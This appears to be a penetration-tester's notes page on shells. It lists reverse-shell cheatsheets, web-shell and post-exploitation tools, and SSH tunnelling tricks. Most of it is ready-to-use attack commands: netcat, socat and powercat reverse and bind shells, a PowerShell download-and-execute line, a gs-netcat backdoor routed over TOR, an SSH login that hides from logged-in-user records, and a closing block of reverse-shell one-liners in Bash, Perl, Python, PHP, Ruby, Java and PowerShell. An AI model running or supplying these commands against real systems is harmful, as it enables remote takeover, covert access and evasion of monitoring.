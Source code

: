 # Shells

## Shell Guides and Resources

{% tabs %}
{% tab title="Shell Cheatsheets" %}
* [PayloadsAllTheThings/ReverseShellCheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Pentest monkey Rshell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)&#x20;
* [CTF Notes Reverse shell cheatsheet](https://github.com/Shiva108/CTF-notes/blob/master/rvshell\_cheatsheet.html)&#x20;
* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
{% endtab %}

{% tab title="Spawning a TTY Shell" %}
### [Spawning a TTY Shell](https://netsec.ws/?p=337)
{% endtab %}

{% tab title="Upgrading a Shell" %}
### **Upgrading a shell**

****[**https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/**](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)****

**Reverse shell Upgrade to Fully interactive - Linux**&#x20;

* Method 1&#x20;
  * Simply add 2&>1 to the end of the command&#x20;
* Method 2&#x20;
  * (Victim) # python -c "import pty; pty.spawn('/bin/bash')"&#x20;
  * (Victim # export TERM=xterm&#x20;
  * (Victim) -Now Ctrl + z to background your reverse shell&#x20;
  * (Attacker) # stty raw -echo; fg&#x20;
  * (Victim) # reset&#x20;
  * _\*_If looks wonky&#x20;
    * (Attacker) # stty size&#x20;
    * (Victim) # stty -rows \[#] -columns \[#]&#x20;
* Method 3&#x20;
  * \#sudo apt install rlwrap&#x20;
  * \# rlwrap nc -lvnp&#x20;
  * \# stty raw -echo; fg&#x20;
* Method 4&#x20;
  * Use Socat
* [https://netsec.ws/?p=337](https://netsec.ws/?p=337)
* [https://xapax.github.io/security/#post\_exploitation/spawning\_shells/](https://xapax.github.io/security/#post\_exploitation/spawning\_shells/)
* [https://pentestmonkey.net/blog/post-exploitation-without-a-tty](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)
{% endtab %}
{% endtabs %}

## **Shells**

<details>

<summary>Shell Collections</summary>

* Impacket remote execution scripts
  * [psexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/psexec.py) PSEXEC like functionality example using [RemComSvc](https://github.com/kavika13/RemCom)&#x20;
  * [smbexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/smbexec.py) A similar approach to PSEXEC w/o using RemComSvc. The technique is described [here](https://web.archive.org/web/20140625065218/http://blog.accuvant.com/rdavisaccuvant/owning-computers-without-shell-access/). Our implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine does NOT have a writeable share available.
  * [atexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/atexec.py) This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
  * [wmiexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/wmiexec.py) A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
  * [dcomexec.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/dcomexec.py) A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
* [BlackArch Web Shells](https://github.com/BlackArch/webshells) - Shell collection included in the BlackArch Linux Distrobution
* [Python PTY shells](https://github.com/infodox/python-pty-shells) - Collection of full PTY shells in python
* [AlphaSecLabs Webshell collection](https://github.com/alphaSeclab/awesome-webshell/blob/master/Readme\_en.md)
* [https://xapax.github.io/security/#tools/webshell/](https://xapax.github.io/security/#tools/webshell/)
* _Operator Handbook: Reverse Shells - pg. 267_

</details>

<details>

<summary>Misc Shells and Tools</summary>

* [dbd](https://www.kali.org/tools/dbd/) - dbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. dbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features.
* [sbd](https://www.kali.org/tools/sbd/) - sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
* [Reverse Shell and Post Exploitation tool](https://github.com/panagiks/RSPET) - RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.
* [Reverse Shell Generator](https://github.com/mthbernardes/rsg) - Cheater tool to generate reverse shell one liners
* [ShellPop](https://github.com/0x00-0x00/shellpop) - With this tool you can generate easy and sophisticated reverse or bind shell commands to help you during penetration tests.
* [SQL webshell](https://github.com/NetSPI/cmdsql) - Webshell that can run command line actions on the target as well as interact with an MSSQL database on the target.
  * [https://www.netspi.com/blog/technical/network-penetration-testing/adding-powershell-to-web-shells-to-get-database-access/](https://www.netspi.com/blog/technical/network-penetration-testing/adding-powershell-to-web-shells-to-get-database-access/)
* [Shellerator](https://github.com/ShutdownRepo/shellerator) - Simple CLI tool for the generation of bind and reverse shells in multiple languages
* [donut](https://github.com/TheWover/donut) - Generates x86, x64, or AMD64+x86 position-independent shellcode that loads .NET Assemblies, PE files, and other Windows payloads from memory and runs them with parameters
  * [golang-github-binject-go-donut](https://www.kali.org/tools/golang-github-binject-go-donut/) - This package contains the Donut Injector ported to pure Go.
* [ibombshell](https://www.kali.org/tools/ibombshell/) - This package contains a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation).
  * [https://github.com/Telefonica/ibombshell](https://github.com/Telefonica/ibombshell)
* [Weevly webshell ](https://github.com/epinna/weevely3)- Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.
  * [https://www.youtube.com/watch?v=Ig-HS6kxz4Q](https://www.youtube.com/watch?v=Ig-HS6kxz4Q)
* [PyShell](https://github.com/JoelGMSec/PyShell) - Multiplatform Python WebShell. This tool helps you to obtain a shell-like interface on a web server to be remotely accessed. Unlike other webshells, the main goal of the tool is to use as little code as possible on the server side, regardless of the language used or the operating system of the server.
  * [https://www.kitploit.com/2022/03/pyshell-multiplatform-python-webshell.html?m=1](https://www.kitploit.com/2022/03/pyshell-multiplatform-python-webshell.html?m=1)
* [SharPyShell](https://github.com/antonioCoco/SharPyShell) - tiny and obfuscated ASP.NET webshell for C# web applications

</details>

<details>

<summary>SSH</summary>

* Basic Use: #ssh \[user]@\[host]&#x20;
* Use a specific key and port: #ssh -i \~/.ssh/id\_rsa -p \[port] \[user]@\[host]&#x20;
* SOCKS proxy: ssh -D8080 \[user]@\[host]&#x20;
* Execute a one line command : ssh -i \~/.ssh/id\_rsa \[user]@\[host] “_command string_”&#x20;
* Local Port Forward: ssh -L \[bindaddr]:\[port]:\[dsthost]:\[dstport] \[user]@\[host]&#x20;
* Remote Port Forward:ssh -R \[bindaddr]:\[port]:\[localhost]:\[localport] \[user]@\[host]&#x20;
* SSH tunnel through T1 to T2:ssh \[user]@\[T1 IP] -L \[Local LPORT]:\[T2 IP]:\[T2 LPORT] -R \[Local LPORT 2]:\[Local IP]:\[T1 LPORT]&#x20;
*   **Almost invisible SSH**

    ```
    ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
    ```

    This will not add your user to the _/var/log/utmp_ file and you won't show up in _w_ or _who_ command of logged in users. It will bypass .profile and .bash\_profile as well. On your client side it will stop logging the host name to _\~/.ssh/known\_hosts_.
*   **SSH tunnel OUT**

    We use this all the time to circumvent local firewalls and IP filtering:

    ```
    ssh -g -L31337:1.2.3.4:80 user@server.org
    ```

    You or anyone else can now connect to your computer on port 31337 and get tunneled to 1.2.3.4 port 80 and appear with the source IP of 'server.org'. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   &#x20;**SSH tunnel IN**

    We use this to give access to a friend to an internal machine that is not on the public Internet:

    ```
    ssh -o ExitOnForwardFailure=yes -g -R31338:192.168.0.5:80 user@server.org
    ```

    Anyone connecting to server.org:31338 will get tunneled to 192.168.0.5 on port 80 via your computer. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   **SSH socks4/5 OUT**

    OpenSSH 7.6 adds socks support for dynamic forwarding. Example: Tunnel all your browser traffic through your server.

    ```
    ssh -D 1080 user@server.org
    ```

    Now configure your browser to use SOCKS with 127.0.0.1:1080. All your traffic is now tunneled through _server.org_ and will appear with the source IP of _server.org_. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).
*   **SSH socks4/5 IN**

    This is the reverse of the above example. It give others access to your _local_ network or let others use your computer as a tunnel end-point.

    ```
    ssh -g -R 1080 user@server.org
    ```

    The others configuring server.org:1080 as their SOCKS4/5 proxy. They can now connect to _any_ computer on _any port_ that your computer has access to. This includes access to computers behind your firewall that are on your local network. An alternative and without the need for a server is to use [gs-netcat](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet#bdra-anchor).

</details>

<details>

<summary><a href="http://netcat.sourceforge.net/">Netcat - The original shell tool.</a></summary>

* Reference
  * [SANS netcat cheatsheet](https://www.sans.org/security-resources/sec560/netcat\_cheat\_sheet\_v1.pdf)
  * [Netcat: All you need to know](https://blog.ikuamike.io/posts/2021/netcat/)
* Set Listener&#x20;
  * \# nc -nlvp \[port]
* Connect to port&#x20;
  * \# nc -nv \[ip] \[port]&#x20;
* Push a file over netcat&#x20;
  * \#nc -nv \[ip] \[port] < /full/path/to/file.exe&#x20;
* Catch a pushed file and write it to new file&#x20;
  * \#nc -nvlp \[port] > incoming.exe&#x20;
* Launch command upon connection&#x20;
  * \#nc -nlvp \[port] -e cmd.exe&#x20;
* **\***UPGRADE Non interactive shell_**\*\***_&#x20;
  * &#x20;Check python version in /usr/bin&#x20;
  * \# python2.6 -c "import pty; pty.spawn('/bin/bash')"&#x20;
* Reverse shell
  * TARGET # nc \[ip] \[port] -e /bin/bash&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Netcat with GAPING \_SECURITY\_HOLE\_disabled&#x20;
  * When you dont have access to the -e option (execute command after connect), backpipe commands from file system from netcat back into bin/bash&#x20;
  * TARGET # mknod backpipe p && nc \[ip] \[port] 0\<backpipe | /bin/bash 1>backpipe&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Netcat without netcat (/dev/tcp)&#x20;
  * TARGET # /bin/bash -i > /dev/tcp/\[IP]/\[port] 0<&1 2>&1&#x20;
  * ATTACKER # nc -n -vv -l -p \[port] • netcat without netcat or /dev/tcp&#x20;
  * TARGET # mknod backpipe p && telnet \[ip] \[port] 0\<backpipe | /bin/bash 1>backpipe&#x20;
  * ATTACKER # nc -n -vv -l -p \[port]&#x20;
* Linux listener bind shell, executes bin bash on connection&#x20;
  * \#mkfifo /tmp/f; nc -lvnp  < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
* _Operator Handbook: Netcat - pg. 209_

</details>

{% embed url="https://youtu.be/KlzSBk7VMss" %}

<details>

<summary><a href="http://manpages.org/socat">Socat - The upgraded and encryptable Netcat</a></summary>

### ****[**Socat**](http://manpages.org/socat) **-** The upgraded and encryptable Netcat

* [https://github.com/3ndG4me/socat](https://github.com/3ndG4me/socat) - Socat standalone binary collection
* Socat - establishes two bidirectional btye streams and transfers data between them&#x20;
* Bind shell - Linux connect to IP and Port
  * \# socat TCP:\[ip]:\[port] EXEC: “bash -li”,pty,stderr,sigint,setsid,sane&#x20;
* Bind shell - Windows connect to IP and Port
  * \# socat TCP:\[ip]:\[port] EXEC:powershell.exe,pipes&#x20;
* Sets listener on port
  * \# socat TCP-L:\[port]&#x20;
* Sets listener with stable shell
  * \# socat TCP-L:\[port] FILE:`tty`,raw,echo=0
* Shares file on port&#x20;
  * \# socat TCP-L:\[port],fork file:\[file name]&#x20;
* Encrypted shell&#x20;
  * Uses open ssl to create a self signed cert and encrypt
  * \# openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt&#x20;
  * \# cat shell.key shell.crt > shell.pem&#x20;
  * Reverse shell
    * \#sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,FILE:`tty`,raw,echo=0    &#x20;
  * Reverse listener
    * \#sudo socat OPENSSL:\[ip]:\[port], verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane                    &#x20;
  * Bind shell
    * \#socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes      - Target
    * \#socat OPENSSL::,verify=0 -                                                                                -Attacker
* [https://www.hackingarticles.in/socat-for-pentester/](https://www.hackingarticles.in/socat-for-pentester/)

</details>

<details>

<summary><a href="https://github.com/besimorhino/powercat">Powercat - Netcat: The powershell version. </a></summary>

### [**Powercat**](https://github.com/besimorhino/powercat) **** - Netcat: The powershell version. (Powershell Version 2 and Later Supported)

* Powershell enableing&#x20;
  * When presented with a User Account Control prompt, select Yes and enter Set-ExecutionPolicy Unrestricted:&#x20;
* Script we can download to a windows host to leverage Powershell and simplify shells&#x20;
* Install on linux &#x20;
  * \#apt install powercat&#x20;
  * places in /usr/share/windows-resources/powercat&#x20;
* Set up&#x20;
  * With the script on the target host, we start by using a PowerShell feature known as Dot-sourcing to load the powercat.ps1 script. This will make all variables and functions declared in the script available in the current PowerShell scope. In this way, we can use the powercat function directly in PowerShell instead of executing the script each time.&#x20;
    * \>. .\powercat.ps1&#x20;
  * If the target machine is connected to the internet we can do the same with a remote script by once again using the handy iex cmdlet&#x20;
    * \> iex (New-Object System.Net.Webclient).DownloadString('[https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)')&#x20;
* Powercat file transfers&#x20;
  * Set up a listener on Attackers Kali instance&#x20;
    * \# sudo nc -lnvp 443 > receiving\_powercat.ps1&#x20;
  * Invoke power cat on sending windows machine&#x20;
    * \> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1&#x20;
    * \-c specifies client mode and sets listening address&#x20;
    * \-p is the destination port
    * &#x20;\-i indicates the local file that will be transferred remotely&#x20;
* Reverse shells&#x20;
  * \> powercat -c \[dest ip] -p \[dest port] -e cmd.exe&#x20;
* Bind shells - listener&#x20;
  * \> powercat -l -p \[listener port] -e cmd.exe&#x20;
* Stand Alone Payloads&#x20;
  * Saving the powercat functionality and given commands as a script&#x20;
  * \> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1&#x20;
  * \> ./reverseshell.ps1&#x20;
  * **Warning: these scripts are rather large and have hard coded strings that will set off IDS\***&#x20;
    * Powershell can execute Base64 encoded commands&#x20;
    * We can use the -ge option when redirecting to an output file.&#x20;
    * \> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1&#x20;
    * Due to the way powershell works, you cannot execute the new script as is but you must run its contents&#x20;
    * \> powershell.exe -E \[encoded command string]
* [https://www.hackingarticles.in/powercat-for-pentester/](https://www.hackingarticles.in/powercat-for-pentester/)

</details>

### [pwncat](https://www.kali.org/tools/pwncat/)&#x20;

This package contains Netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and port forwarding magic - and its fully scriptable with Python (PSE).

### [gsocket](https://github.com/hackerschoice/gsocket)

Connect like there is no firewall. Securely. The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely. More on [https://www.gsocket.io](https://www.gsocket.io).

<details>

<summary>gsocket resources</summary>

The Global Socket Toolkit comes with a set of tools:

* **gsocket** - Makes an existing program (behind firewall or NAT) accessible from anywhere in the world. It does so by analyzing the program and replacing the IP-Layer with its own Gsocket-Layer. A client connection to a hostname ending in _'\*.gsocket'_ then gets automatically redirected (via the GSRN) to this program.
* **gs-netcat** - Netcat on steroids. Turn gs-netcat into an AES-256 encrypted reverse backdoor via TOR (optional) with a true PTY/interactive command shell (`gs-netcat -s MySecret -i`), integrated file-transfer, spawn a Socks4/4a/5 proxy or forward TCP connections or give somebody temporary shell access.
* **gs-sftp** - sftp server & client between two firewalled workstations (`gs-sftp -s MySecret`)
* **gs-mount** - Access and mount a remote file system (`gs-mount -s MySecret ~/mnt/warez`)
* **blitz** - Copy data from workstation to workstation (`blitz -s MySecret /usr/share/*`)
* ...many more examples and tools.
* **Reverse shell with gs-netcat**

Use [gs-netcat](https://github.com/hackerschoice/gsocket). It spawns a fully functioning PTY reverse shell and using the Global Socket Relay network. It uses 'password hashes' instead of IP addresses to connect. This means that you do not need to run your own Command & Control server for the backdoor to connect back to. If netcat is a swiss army knife than gs-netcat is a german battle axe :>

```
gs-netcat -s MySecret -l -i    # Host
```

Use -D to start the reverse shell in the background (daemon) and with a watchdog to auto-restart if killed.

To connect to the shell from your workstation:

```
gs-netcat -s MySecret -i
```

Use -T to tunnel trough TOR.

</details>

#### Shell One-Liners

<details>

<summary>Shell One-Liners</summary>

* Bash&#x20;
  * bash -i >& /dev/tcp/10.0.0.1/8080 0>&1&#x20;

<!---->

* Netcat with out -e flag&#x20;
  * \#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f&#x20;

<!---->

* Netcat&#x20;
  * \#nc -e /bin/sh 10.10.10.10 4443&#x20;

<!---->

* Netcat windows&#x20;
  * \#nc -e cmd.exe 10.10.10.10 4443&#x20;

<!---->

* Perl&#x20;
  * perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'&#x20;

<!---->

* Python&#x20;
  * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'&#x20;

<!---->

* PHP&#x20;
  * php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'&#x20;

<!---->

* Ruby&#x20;
  * ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'&#x20;

<!---->

* Java&#x20;
  * r = Runtime.getRuntime()&#x20;
  * p = r.exec(\["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String\[])&#x20;
  * p.waitFor()&#x20;

<!---->

* Powershell - reverse shell&#x20;
  * \>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"&#x20;

<!---->

* Powershell Bind shell&#x20;
  * \>powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\[text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

</details>
